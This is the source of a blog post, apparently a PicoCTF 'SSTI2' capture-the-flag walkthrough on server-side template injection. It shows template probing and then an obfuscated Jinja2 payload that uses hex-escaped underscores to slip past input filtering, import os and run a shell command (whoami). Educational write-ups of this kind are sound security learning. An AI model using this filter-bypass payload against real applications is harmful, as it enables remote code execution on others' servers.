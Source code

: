 ```yaml
---
layout: post
title: "SSTI2 PicoCTF"
date: 2025-09-16
categories: [ctf, picoctf, walkthrough]
image: https://miro.medium.com/v2/resize:fit:720/format:webp/1*d2R1OXU4u4xLDzO7teA1eA.png
permalink: /blog/SSTI2PicoCTF
locked: false
---
```


I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)

This is going to be challenging, but we’ve got this because, based on the description…

<img 
  src="https://miro.medium.com/v2/resize:fit:2000/format:webp/0*pH3T71KSqmj2LUip"
  alt="Website initial view"
  class="zoomable-img"
  style="border: 2px solid #ccc; border-radius: 10px; cursor: zoom-in;"
/>

Using this image, we can test the site to see which templates we are working on.

from {% raw %}`${7 * 7}`{% endraw %} didn’t work, {% raw %}`{{7 * 7}}`{% endraw %} works -> {% raw %}`{{7*’7'}}`{% endraw %} works —> jinja2 or twig

Based on this post, we have different payloads to be able to bypass this with Jinja2 <https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/>

<div class="code-block-container">
  <span class="code-lang-tag">Terminal</span>
  <button class="copy-btn" onclick="copyCode(this)" title="Copy code">
    <svg width="18" height="18" fill="none" stroke="currentColor" stroke-width="2" viewBox="0 0 24 24">
      <rect x="9" y="9" width="13" height="13" rx="2" ry="2" stroke="currentColor" fill="none"/>
      <path d="M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1" />
    </svg>
  </button>
  {% raw %}
  <pre><code class="Terminal">
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('whoami')|attr('read')()}}
</code></pre>
  {% endraw %}
</div>

<img 
  src="https://miro.medium.com/v2/resize:fit:2000/format:webp/1*dPHJA_Rrnb9ORHvdFGlKbg.png"
  alt="Website initial view"
  class="zoomable-img"
  style="border: 2px solid #ccc; border-radius: 10px; cursor: zoom-in;"
/>